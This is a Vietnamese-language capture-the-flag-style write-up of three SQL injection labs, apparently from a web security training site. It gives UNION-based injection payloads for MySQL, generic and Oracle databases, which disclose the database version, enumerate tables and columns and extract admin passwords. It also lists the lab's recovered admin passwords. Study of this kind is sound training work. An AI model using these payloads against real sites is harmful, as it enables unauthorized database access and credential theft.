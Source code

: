 ## Lab 4: SQL injection attack, querying the database type and version on MySQL and Microsoft
Description: Display version của database
Tương tự bài ở trên, ta sẽ theo luồng như sau (MySQL sử dụng comment là `#` hoặc `-- -`)
```
' OR 1=1#
' ORDER BY 2# (Khi dùng ORDER BY 3 sẽ gặp lỗi -> Có 2 cột)
' UNION SELECT NULL,NULL#
' UNION SELECT 'a','a'# 
' UNION SELECT @@version,NULL#
```

![image](https://hackmd.io/_uploads/rJz_k2kn6.png)


## Lab 5: SQL injection attack, listing the database contents on non-Oracle databases
Description: Sử dụng UNION attack để thu thập thông tin của các bảng trong database và lấy được password của admin rồi đăng nhập bằng admin

Luồng thực hiện sẽ như sau
```
' OR 1=1--
' ORDER BY 2-- 
' UNION SELECT NULL,NULL--
' UNION SELECT 'a','a'-- 
' UNION SELECT table_name,NULL FROM information_schema.tables-- 
#Một số bài khác có thể dùng UNION SELECT * FROM information_schema.tables WHERE table_schema=database()
-> 1 table đáng chú ý : users_mzrzdr
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_mzrzdr'-- 
-> Ta được 2 cột của username và password:username_wbuatx và password_gljvzb
' UNION SELECT username_wbuatx,password_gljvzb FROM users_mzrzdr--
-> Password của admin: q835f1h8mztlw0dlifhf
=> Đăng nhập và solve lab
```
![image](https://hackmd.io/_uploads/SJMnHn13a.png)

## Lab 6: SQL injection attack, listing the database contents on Oracle
Description: Sử dụng UNION attack để thu thập data từ các bảng rồi đăng nhập làm admin để pass bài lab này.
Bài lab này giống bài lab trước, nhưng mà Oracle có chút khác biệt so với các database khác, SELECT phải đi với DUAL, information_schema.tables thay bằng all_tables, information_schema.columns thay bằng all_tab_columns
```
' OR 1=1--
' ORDER BY 2-- 
' UNION SELECT NULL,NULL FROM DUAL--
' UNION SELECT 'a','a' FROM DUAL-- 
' UNION SELECT table_name,NULL FROM all_tables-- 
-> 1 table đáng chú ý : USERS_RDICMB
' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_RDICMB'-- 
-> Ta được 2 cột của username và password:USERNAME_CZEXEA và PASSWORD_WKJECT
' UNION SELECT USERNAME_CZEXEA,PASSWORD_WKJECT FROM USERS_RDICMB--
-> Password của admin: 5gztht9nmdw1zvtxvev5
=> Đăng nhập và solve lab
```
![image](https://hackmd.io/_uploads/SyMQ1jl2a.png)
